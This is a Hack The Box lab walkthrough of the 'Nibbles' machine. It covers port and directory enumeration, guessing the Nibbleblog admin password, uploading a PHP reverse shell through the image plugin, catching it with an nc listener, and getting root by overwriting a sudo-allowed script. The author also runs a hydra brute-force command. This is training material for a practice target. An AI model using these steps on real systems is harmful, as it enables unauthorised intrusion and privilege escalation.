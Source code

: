 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.75

[+] Openning ports: 22,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.75 -p22,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 12:13 +07
Nmap scan report for 10.10.10.75
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

### Apache httpd 2.4.18

Checking source code, there is a directory `/nibbleblog/`.

```
┌──(Hades㉿10.10.14.5)-[0.9:30.3]~
└─$ curl http://10.10.10.75/                                                                                                        
<b>Hello world!</b>
<snip>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

List of hidden in the server after `/nibbleblog/` using gobuster

```
┌──(Hades㉿10.10.14.5)-[1.7:51.3]~
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -q
/install.php          (Status: 200) [Size: 78]
/index.php            (Status: 200) [Size: 2986]
/update.php           (Status: 200) [Size: 1622]
/admin.php            (Status: 200) [Size: 1401]
/.htaccess            (Status: 403) [Size: 306] 
/feed.php             (Status: 200) [Size: 300] 
/sitemap.php          (Status: 200) [Size: 401]
```

### Nibbleblog 4.0.3

I go to `http://10.10.10.75/nibbleblog/install.php`, and it shows the `update` link.

![](images/2.png)

Go to `update.php`, I know the server was running Nibbleblog 4.0.3

![](images/3.png)

Find public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[1.7:43.2]~
└─$ searchsploit Nibbleblog 4.0.3 
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Met | php/remote/38489.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Guessable Admin Credential

At the url `http://10.10.10.75/nibbleblog/admin.php`, It is login page for admin.

![](images/4.png)

I try to brute force with hydra but my ip address have been blocked.

```
hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.75 http-post-form '/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password.'
```

![](images/5.png)

Let's try a manual guess with some common credentials and I got the username `admin`, password `nibbles` to login successfully.

![](images/6.png)

### Nibbleblog 4.0.3 Upload

Follow exploit `php/remote/38489.rb` and searching in the internet, I found manual steps [here](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

At [Plugins My image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image), upload file `php-reverse-shell.php`.

![](images/7.png)

Execute file upload and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/payloads/web-shells/php
└─$ curl 10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

At the listener, I have reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/walkthrough/hackthebox/nibbles
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 47294
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 02:47:49 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Privilege Escalation

### Sudo access file overwrite

At home nibbler's folder, I saw a personal.zip file, try to unzip it and read more.

```
nibbler@Nibbles:/home/nibbler$ ls -la
<snip>
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Apr  6 01:12 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

And also, I enum sudo permission execute file `/home/nibbler/personal/stuff/monitor.sh` as root without require password.

```
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Change file `monitor.sh` to spawn bash as root and run it with sudo command.

```
shbbler@Nibbles:/home/nibbler$ echo bash > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
```